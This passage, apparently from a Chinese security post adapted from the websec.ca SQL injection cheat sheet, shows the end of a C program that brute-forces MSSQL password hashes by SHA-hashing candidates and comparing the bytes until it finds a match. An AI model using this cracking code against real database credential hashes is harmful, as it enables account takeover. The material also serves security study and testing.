 ```
         uwttf[cnt]=x;
         cnt++;
// Create the hash
if(!CryptCreateHash(hProv, CALG_SHA, 0 , 0, &hHash))
         {
                   printf("Error %x during CryptCreatHash!\n", GetLastError());
                   return 0;
         }
if(!CryptHashData(hHash, (BYTE *)uwttf, len*2+4, 0))
         {
                   printf("Error %x during CryptHashData!\n", GetLastError());
                   return FALSE;
         }
CryptGetHashParam(hHash,HP_HASHVAL,(byte*)szhash,&hl,0);
// Test the first byte only. Much quicker.
if(szhash[0] == cmp)
         {
                   // If first byte matches try the rest
                   ptr = pucase;
                   cnt = 1;
                   while(cnt < 20)
                   {
                               ptr = ptr + 2;
                               strncpy(pucfirst,ptr,2);
                               sscanf(pucfirst,"%x",&cmp);
                               if(szhash[cnt]==cmp)
                                        cnt ++;
                               else
                               {
                                        break;
                               }
                   }
                   if(cnt == 20)
                   {
                        // We've found the password
                        printf("\nA MATCH!!! Password is %s\n",wttf);
                        return 0;
                     }
             }
             count = 0;
             cnt=0;
           }
  return 0;
}

```

PS:英文原文内容来源于:[http://websec.ca/kb/sql_injection#MSSQL_Testing_Version](http://websec.ca/kb/sql_injection#MSSQL_Testing_Version)

楼主在原内容基础上进行了一些补充,并分享了一些在测试过程中发现的技巧.

参考来源:[http://websec.ca/kb/sql_injection#MSSQL_Testing_Version](http://websec.ca/kb/sql_injection#MSSQL_Testing_Version)[http://safe.it168.com/ss/2007-09-10/200709100935438.shtml](http://safe.it168.com/ss/2007-09-10/200709100935438.shtml)